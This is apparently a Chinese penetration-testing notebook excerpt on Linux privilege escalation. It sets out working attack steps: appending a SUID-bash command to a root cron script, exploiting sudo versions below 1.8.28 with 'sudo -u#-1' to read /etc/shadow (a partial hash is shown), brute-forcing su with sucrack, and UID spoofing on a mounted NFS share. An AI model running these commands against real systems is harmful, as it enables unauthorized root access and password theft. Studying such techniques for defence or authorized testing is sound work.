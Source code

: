 crontab -l 查看是否有特殊文件是root权限执行的

使用命令查看电脑定时任务 cat
/etc/crontab(有些不行，应该会提供工具无需root监控进程)

sh定时任务提权：

使用：echo \"cp /bin/bash /tmp/bash; chmod +s /tmp/bash\" \>\> test.sh
(test.sh为crontab里的定时执行文件)

到了时间便自动生成bash文件

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image59.png){width="5.760416666666667in"
height="2.240161854768154in"}

使用/tmp/bash -p 及可提权

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image60.png){width="5.760416666666667in"
height="0.5582425634295713in"}

**su爆破**

**搭建环境**

linux系统

只要sudo版本\< 1.8.28

修改配置文件

在/etc/sudoers 添加配置： test ALL=(ALL:!root)ALL

这样就可以执行：

tom@bogon:/\$ sudo -u#-1 cat /etc/shadow

tom@bogon:/\$ sudo -u#4294967295 cat /etc/shadow

root:\$6\$nuqirz/F\$0yXjbfS2YYzmqh

**sucrack 使用方法**

sucrack 的用法非常简单，最基础的命令如下：

sucrack -w 20 wordlists.txt

**nfs 提权**

showmount -e 192.168.111.122

![a65f58474f04a15e956c5873262833c0.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image61.jpeg){width="4.222222222222222in"
height="0.9695472440944882in"}

将 /home/peter 挂载到本地 /mnt/peter 查看

mount 192.168.111.122:/home/peter /mwnt/peter cd /mnt/peter

ls -la，发现没有写权限，但只要 uid 为 1001，gid 为 1005
的用户就可以，由于是挂载到本地，本地创建一个这样账户，即可对此目录进行写权限

![be8a73f5c621f3685bcb9e4b420f6557.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image62.jpeg){width="5.760416666666667in"
height="3.497396106736658in"}
